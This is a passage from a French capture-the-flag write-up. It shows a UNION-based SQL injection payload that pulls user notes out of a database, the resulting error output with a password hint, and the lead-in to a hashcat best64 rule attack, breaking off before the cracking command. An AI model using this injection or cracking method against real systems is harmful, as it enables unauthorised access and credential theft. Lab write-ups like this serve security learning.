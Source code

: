 Nous récupérons aussi les notes pour voir si quelque chose d’intéressant puisse être récupéré.

```sql
'UNION SELECT group_concat(notes),NULL,NULL,NULL FROM users -- -
```

Tous les autres utilisateurs sauf le numéro 2 a une note (Harry).

```json
{"error":"The password for contact administrator. Congrats on SQL injection... keep digging,My linux username is my first name, and password uses best64, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging,contact administrator. Congrats on SQL injection... keep digging, contact administrator. Congrats on SQL injection... keep digging is incorrect! None"}
```

## Hashcat

La note liée à Harry est la suivante. Son mot de passe utilise une règle best64. Pour faire simple, ce sont des patterns qui sont utilisées qui sont appliquées au mot de passe.

*Plus d’informations ici :* 

[How To Perform A Rule-Based Attack Using Hashcat](https://www.4armed.com/blog/hashcat-rule-based-attack/)

La note de Harry : 

```sql
My linux username is my first name, and password uses best64
```

Voici la commande qui nous permettra de cracker le mot de passe de Harry avec la règle best64.
